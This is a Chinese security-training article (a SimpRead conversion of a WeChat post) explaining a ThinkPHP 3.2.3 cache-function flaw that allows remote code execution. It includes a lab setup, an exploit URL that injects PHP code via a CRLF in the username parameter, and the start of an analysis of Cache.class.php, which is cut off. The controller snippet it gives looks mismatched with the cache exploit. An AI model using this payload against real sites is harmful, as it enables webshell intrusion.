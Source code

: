 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/iTRjti0Xj4VkK1I4tetsIw)

**高质量的安全文章，安全 offer 面试经验分享**

**尽在 # 掌控安全 EDU #**

  

![](https://mmbiz.qpic.cn/mmbiz_png/siayVELeBkzWBXV8e57JJ4OyQuuMXTfadZCia0bN2sFBfdbTRlFx0S97kyKKjic5v6eaZ8cY4WQt0UEu4dkyowHYg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rl6daM2XiabyLSr7nSTyAzcoZqPAsfe5tOOrXX0aciaVAfibHeQk5NOfQTdESRsezCwstPF02LeE4RHaH6NBEB9Rw/640?wx_fmt=png)

作者：掌控安全 - 柚子

中间件漏洞

#### 一. RCE

##### ThinkPHP3.2.3 缓存函数设计缺陷可导致代码执行

###### 概述

网站为了提高访问效率往往会将用户访问过的页面存入缓存来减少开销。

而 Thinkphp 在使用缓存的时候是将数据序列化，然后存进一个 php 文件中，这使得命令执行等行为成为可能。

就是缓存函数设计不严格，导致攻击者可以插入恶意代码，直接 getshell。

###### 实验环境

redhat6+apache2+Mysql+php5+thinkphp3.2.3

###### 漏洞利用

将 application/index/controller/Index.php 文件中代码更改如下：

```
$map['字段1']  = array('表达式','查询条件1');
$map['字段2']  = array('表达式','查询条件2');
$Model->where($map)->select();
```

访问 http://localhost/tpdemo/public/?username=xxx%0d%0aphpinfo();//， 即可将 webshell 等写入缓存文件。

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1qsQ7H1cVXia0ico6ibfb2DBsMS2d8w92gW4aP7jibgkYyZ7SYcWNkx9RBQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1gJ1zSCpJPojCelTJgCXibnH5KXuhicBhZyAcNfvErQL2EpohYtCR3n3w/640?wx_fmt=png)

###### 漏洞分析

先找到 Cache.class.php 文件，也就是缓存文件，关键代码：

```
/**
     * 连接缓存
     * @access public
     * @param string $type 缓存类型
     * @param array $options  配置数组
     * @return object
     */
    public function connect($type='',$options=array()) {
        if(empty($type))  $type = C('DATA_CACHE_TYPE');
        $class  =   strpos($type,'\\')? $type : 'Think\\Cache\\Driver\\'.ucwords(strtolower($type));
        if(class_exists($class))
            $cache = new $class($options);
        else
            E(L('_CACHE_TYPE_INVALID_').':'.$type);
        return $cache;
```
